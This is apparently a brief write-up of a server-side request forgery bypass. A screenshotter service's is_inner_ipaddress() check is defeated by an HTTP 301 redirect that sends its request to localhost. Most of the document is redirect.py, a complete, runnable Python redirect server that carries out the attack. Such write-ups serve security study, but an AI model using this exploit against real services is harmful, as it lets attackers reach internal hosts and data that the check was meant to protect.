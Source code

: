 
# The Bug

The `is_inner_ipaddress()` function can be bypassed forcing an **HTTP 301 Moved Permanently** request when contacted by the screenshotter service. In this way it is possible to redirect the GET request to [localhost](http://localhost) and get inner contents exploiting the SSRF.

**redirect.py**

```python
#!/usr/bin/env python

import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           print(url)
           self.end_headers()

       def do_POST(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler

def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()

    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)

    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()
```
